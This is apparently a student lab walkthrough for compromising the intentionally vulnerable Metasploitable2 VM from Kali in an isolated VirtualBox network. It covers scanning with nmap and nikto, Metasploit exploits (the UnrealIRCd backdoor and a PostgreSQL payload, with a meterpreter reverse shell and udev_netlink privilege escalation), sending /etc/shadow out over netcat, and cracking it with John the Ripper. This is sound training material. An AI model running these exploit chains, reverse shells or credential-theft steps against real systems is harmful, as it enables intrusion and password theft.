 # SoftwareSec-Metasploitable2

## Overview

Attempt to get a shell onto a remote system (Metasploitable2) and extract its password and shadow files for password cracking. Using SSH to verify results.

## Set Ups

#### Virtual Box

Set up a local nat network

File > Preferences > Network > add Nat Network

#### Kali

Settings > Network > Attach to > Nat Network

update: ```$apt-get clean && apt-get update && apt-get upgrade -y && apt-get dist-upgrade -y```

#### Metasploitable

Settings > Network > Attach to > Nat Network

username: msfadmin

password: msfadmin

## Procedure

### Network discovery

Finding your own IP

```$ifconfig```

Discovering other IPs on your network

```$nmap -sP 10.0.2.0/24```

After finding target on network, run ```nmap``` for ports and services discover

```$nmap <Target IP>```

Notice that there is an HTTP server running, use ```nikto``` to find vulnerabilities. Default port is 80

```nikto -h <Target IP>```

```nikto``` returns a list of vulnerabilities for the server. Google these vulnerabilities and their potention exploits

Running Metasploit frameworks. Either use the fast access side bar in Kali or Applications > 08 - Exploitation > Metasploit Frameworks.

The first time starting metasploit will take a little bit as it needs to initialize a database.  

### Finding Exploits 

Notice that there is an IRC service running on port 6667 during our nmap port scan. There is a backdoor exploit we can use. To search for a unix irc exploit 

```search type:exploit platform:unix irc```

returns ```exploit/unix/irc/unreal_ircd_3281_backdoor```

To use the exploit:

```use exploit/unix/irc/unreal_ircd_3281_backdoor```

Set the target host:

```set RHOST <Target IP>```

Show available payloads

```show payloads```

There is a reverse tcp payload. We can learn more about it with 

```info cmd/unix/reverse```

To use the payload

```set payload cmd/unix/reverse```

We need to set some options such as LHOST

```show options```

```set LHOST <Local IP>```

Run the exploit

```exploit```

We now have a shell on the remote system. We can check that we're root with ```whoami```. We can also check our IP with ```ifconfig```. What we really want are the password hashes in the shadow file located in /etc/shadow.

```cd /etc/```

We will just ```netcat``` to transfer the file to our local machine from the stolen shell.

On local machine

```nc -lp 1234 > shadow```

On shell

```cat shadow | nc <Local IP> 1234```

We can now crack those passwords with john the ripper. Simply copy the shadow file into a hash.txt

```cp shadow hash.txt```

Run john

```john hash.txt```

We can also run john with its many built in wordlists.

```john -wordlist=/usr/share/wordlists/rockyou.txt hash.txt```

Once the process is done, we can check our cracked passwords

```john -show hast.txt```

We should now have credentials for users on the remote machine. We can verify our passwords are correct using SSH

```ssh username@<TargetIP>```

Extra: Meterpreter - For Stealth, Flexibility, and Reliablity. ```help``` command

Postgress exploit

```use exploit/linux/postgres/postgres_payload```

```show options```

```set payload linux/x86/meterpreter/reverse_tcp```

```set LHOST <Local IP>```

```set RHOST <Target IP>```

```set PASSWORD postgres```

```exploit```

We have a meterpreter as the postgres user. But we can elevate our priviledge to root

```meterpreter> background``` Note the session ID

```use exploit/linux/local/udev_netlink```

```show options```

```set SESSION <ID of meterpreter>```

```exploit```

We now have root privildege with Meterpreter.

### Sources

#### Downloads

https://www.virtualbox.org/

https://www.kali.org/

https://metasploit.help.rapid7.com/docs/metasploitable-2

#### References

https://metasploit.help.rapid7.com/v1/docs/exploitation

https://metasploit.help.rapid7.com/docs/metasploitable-2-exploitability-guide

https://docs.kali.org/general-use/starting-metasploit-framework-in-kali

https://tools.kali.org/information-gathering/nmap

https://tools.kali.org/information-gathering/nikto

https://tools.kali.org/password-attacks/john
